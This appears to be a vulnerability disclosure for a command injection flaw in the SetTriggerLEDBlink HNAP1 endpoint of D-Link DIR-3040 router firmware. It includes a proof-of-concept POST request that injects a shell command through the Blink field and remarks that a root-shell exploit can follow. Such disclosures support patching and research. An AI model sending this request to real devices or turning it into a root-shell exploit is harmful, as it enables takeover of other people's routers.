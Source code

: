 # D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetTriggerLEDBlink

![](../img/Snipaste_2022-10-26_10-27-18.png)

The content obtained by the program through the / settriggerledblink / blink parameter is passed to nptr, and then nptr passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function

![](../img/Snipaste_2022-10-26_10-57-22.png)

At this time, the corresponding parameter is A1

![](../img/Snipaste_2022-10-26_10-56-51.png)

twsystem() function will pass in two parameters, the first is the parameter address, and the second is a constant. This function forks () a child process, and then executes a system call (execv()) in the child process.

##  POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
  <SetLEDStatus xmlns="http://purenetworks.com/HNAP1/">
	<Enabled>false</Enabled>
  </SetLEDStatus>
  <SetTriggerLEDBlink>
  	<Blink>&& ls > /tmp/456 &&echo 1></Blink>
	</SetTriggerLEDBlink>
</soap:Body>
</soap:Envelope>

```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

